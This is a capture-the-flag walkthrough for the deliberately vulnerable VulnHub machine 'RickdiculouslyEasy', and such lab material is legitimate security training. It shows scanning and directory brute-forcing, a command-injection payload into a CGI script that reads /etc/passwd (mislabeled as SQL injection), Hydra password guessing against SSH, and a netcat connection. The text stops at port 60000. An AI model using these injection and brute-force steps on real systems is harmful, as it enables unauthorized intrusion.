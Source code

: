 # RickdiculouslyEasy: 1

#### Download the machine from vulnhub or go for the [link](https://drive.google.com/open?id=0BzB6wBgc606JNmNNdU9waGNGTmM)
![rick wall](https://user-images.githubusercontent.com/112984045/202390970-89a77c0e-1a02-437a-a4e1-1fc2ace6dbac.png)
<br>

* #### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* #### Do follow this page through out the line to void confusion.

### `setup the machine to vmware or virtualbox and run the machine.`
### `It is recommended to keep both attack and 'RickdiculouslyEasy' machines on either briged or NAT network`
### ` After a successful setup go for the commands :`<br>
* #### Remember that the total points to be attained = 130 <br>


## ENUMERATION :

```bash
netdiscover -i < interface >
```
`Example command : netdiscover -i eth0`<br>
![rick netdiscover](https://user-images.githubusercontent.com/112984045/202392016-4d8bd306-0c80-4ad0-bdc2-585eb725ad86.png)
<br>

* For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command :
 
```bash
nmap -sC -sV -T4 < IP >
```
![rick nmap](https://user-images.githubusercontent.com/112984045/202393571-4f039d87-bbd9-470b-8f55-9bddb3a3453a.png)<br>
  ~ we can add -v argument for more verbose output.<br>
 
* I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![rick portscanner](https://user-images.githubusercontent.com/112984045/202403637-cc4fc199-850f-4bd8-a790-80e305916fbc.png)<br>
* Thanks to my tool, It had found a flag at scanning itself before the nmap scan was done<br>

~ I prefer this tool because of its speed as you can see it just took 37 seconds for scanning 65535 ports.<br>Even still some improvements are to be done
 <br>
 
 ## ` points : 10`
 <br>
 
 * Try one more nmap scan with command :
 ```bash
 nmap -sV -sC  -T4 -vv -Pn -p- <br>
 ```
 
  ### ANALYSING ALL THE SCANS :
 * number of OPEN PORTS : 7
 * PORT NUMBERS : 21,22,80,9090,13337,22222,60000
 * OPERATING SYSTEM : UNIX, Linux
 * service running on PORT 21    : ftp
 * service running on PORT 22    : ssh
 * service running on PORT 80    :  Apache/2.4.27 (Fedora)
 * service running on PORT 9090  : Apache/2.4.27 (Fedora)
 * service running on PORT 13337 : unknown
 * service running on PORT 22222 : SSH-2.0-OpenSSH_7.5
 * service running on PORT 60000 : unknown
<br>
  
 * As the port 21 is open lets go for it :
 ```bash
 ftp <IP>
 ```
 ![rick ftp](https://user-images.githubusercontent.com/112984045/202398047-50f86fe1-e337-4b4d-97bd-a9ae834ad33b.png)<br>
 * Terminate the ftp server and look for FLAG.txt
 ```bash
 cat FLAG.txt
 ```
 ![rick 1 ftpflag](https://user-images.githubusercontent.com/112984045/202398637-5237a77d-5bf5-43e0-9071-b7ac2e1ed1b8.png)
<br>

## ` POINTS : 20`
<br>

* As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 <br>
 
 * Nothing to do with the home page<br>
```bash
gobuster dir -u 192.168.0.102/  --no-error -w /usr/share/wordlists/dirb/big.txt -t 50
```
![rick gobu big 80](https://user-images.githubusercontent.com/112984045/202400675-bfa7167f-cd24-4e3f-8208-80a296c1708d.png)
```bash
gobuster dir -u 192.168.0.102/  --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
``` 
![rick gobu med 80](https://user-images.githubusercontent.com/112984045/202400725-7a42cd58-9e28-4a25-8afa-d22b8798e880.png)<br>
<br>

```bash
http://< IP >/passwords/FLAG.txt
```
![rick 2 80 flag](https://user-images.githubusercontent.com/112984045/202401188-cb95b535-2ddb-4556-8ef0-823dc447d592.png)<br>

## `POINTS : 30`
<br>

* As the port 9090 is also open http, lets have a look at that to
```bash
https://< IP >:9090/
```
![rick 3 9090 flag](https://user-images.githubusercontent.com/112984045/202404793-8bc9c025-88b7-4b12-bfb4-c89380517807.png)<br>

## `POINTS : 40`
<br>

* Back to port 80 web
```bash
http://< IP >/robots.txt
```
![rick robots](https://user-images.githubusercontent.com/112984045/202860080-3ee53497-1941-42f5-becd-c10e76c98327.png)<br>

```bash
http://< IP >/cgi-bin/tracertool.cgi
```
![rick tracrroute](https://user-images.githubusercontent.com/112984045/202860217-1a4eb34c-297b-4ce8-9225-a510dcafb84c.png)<br>

` this web-page is vuln to sqli so try command :`
```bash
; tail /etc/passwd
```
or
```bash
http://< IP >/cgi-bin/tracertool.cgi?ip=%3B+tail+%2Fetc%2Fpasswd
```
![rick webshell user](https://user-images.githubusercontent.com/112984045/202860602-49f96a83-2d49-4029-b0fa-7bf93cff1508.png)
<br>

* Now we have 3 usernames ( make them as .txt file )
* Go back to /passwords directory
```bash
view-source:http://< IP >/passwords/passwords.html
```
![rick winter](https://user-images.githubusercontent.com/112984045/202860873-559a2586-8503-4cf3-a9c4-2dfd936d413f.png)
<br>

* Here we go the password
<br>

```bash
hydra -L < list of those 3 users > -p winter ssh://< IP >
```
![rick hydra 22222](https://user-images.githubusercontent.com/112984045/202861376-26a0c985-5836-416b-9d66-1a2189e70c49.png)

<br>

```bash
ssh Summer@< IP > -p 22222
```
![rick sshlogin 22222](https://user-images.githubusercontent.com/112984045/202861474-8e7b38f2-3253-4910-b829-0a9cf8a27106.png)

<br>

```bash
tail FLAG.txt
```
![rick 5ssh 22222](https://user-images.githubusercontent.com/112984045/202861564-a9bfb5a9-2ebd-4873-8936-baa214b7c8d5.png)<br>

## `FLAG : 50`
<br>

<br>
 * Lets go for port  6000
 * As the scan states that it is an reverse shell
 ```bash
 nc < IP > 

```
![rick 4 port60000](https://user-images.githubusercontent.com/112984045/202861911-6f8a806c-85b2-46a3-a775-49f0a0798e54.png)







